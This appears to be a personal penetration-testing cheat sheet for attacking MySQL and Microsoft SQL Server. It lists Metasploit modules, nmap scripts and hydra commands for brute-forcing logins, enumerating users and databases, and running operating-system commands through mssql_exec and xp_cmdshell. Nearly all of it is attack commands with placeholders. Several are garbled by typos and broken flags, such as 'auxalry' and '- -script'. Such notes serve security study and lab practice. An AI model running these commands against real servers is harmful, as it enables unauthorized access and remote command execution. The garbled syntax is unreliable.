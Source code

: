 > For Windows Version

1. To bruteforce login ⇒ _`use auxalry/scanner/mssql/mssql_login`_ && _`set rhost <ip>`_ && _`set user_file <wordlist>`_ && _`set pass_file <wordlist>`_ && _`set verbose false`_ && _`run`_
2. To enum ⇒ `_use auxalry/admin/mssql/mssql_enum_` && _`set rhost <ip>`_ && _`set user_file <wordlist>`_ && _`set pass_file <wordlist>`_ && _`set verbose false`_ && _`run`_
3. To enum_login ⇒ `_use auxalry/admin/mssql/mssql_enum_sql_logins_` && _`set rhost <ip>`_ && _`set user_file <wordlist>`_ && _`set pass_file <wordlist>`_ && _`set verbose false`_ && _`run`_
4. To run command ⇒ `_use auxalry/admin/mssql/mssql_exec_` && _`set rhost <ip>`_ && `set cmd <command>` && _`set user_file <wordlist>`_ && _`set pass_file <wordlist>`_ && _`set verbose false`_ && _`run`_
5. To scan for domain account ⇒ `_use auxalry/admin/mssql/mssql_enum_domain_accounts_` && _`set rhost <ip>`_ && _`set user_file <wordlist>`_ && _`set pass_file <wordlist>`_ && _`set verbose false`_ && _`run`_

  

- we can use **_nmap_** to search for any users that’s dose not need password to login ⇒ `nmap <ip> -p 3306<port> -sV - -script=mysql(or ms-sql)-empty-password`
- If we want another info abot the database ⇒ `nmap <ip> -p 3306<port> -sV - -script=mysql-info`
- to scan the username ⇒ `nmap <ip> -p 3306<port> -sV - -script=mysql-users --script-args="mysqluser='<username>',mysqlpass='<password>'"`
- to list a databases ⇒ `nmap <ip> -p 3306<port> -sV - -script=mysql-databases --script-args="mysqluser='<username>',mysqlpass='<password>'"`
- to list variables ⇒ `nmap <ip> -p 3306<port> -sV - -script=mysql-variables --script-args="mysqluser='<username>',mysqlpass='<password>'"`
- to bruteforce login using nmap ⇒ _`nmap <ip> -p <port> - -script=ms-sql-brute - -script-args userdb=<wordlist>,passdb=<wordlist>`_
- try to run command ⇒ _`nmap <ip> -p <port> - -script=ms-sql-xp-cmdshell - -script-args mssql.username=<username>,mssql.password=<password>.ms-sql-xp-cmdshell.cmd=”<command>”`_

> ==**_type ⇒ like cat in linux_**==

  

  

- to bruteforce login =⇒ _`hydra -l <username> -p /usr/share/metasploit…./data/wordlist/unix_password.txt <ip> <protocol(mysql)>`_

  

> sql of windows version ⇒ ms-sql

- to scan for ms-sql info ⇒ _`nmap <ip> -p <protocol> - -script=ms-sql-info`_
- to advance scan by netbios ⇒ `_nmap <ip> -p <protocol> - -script=ms-sql-ntlm-info --script-args= mssql.instance-port=<port number>_`
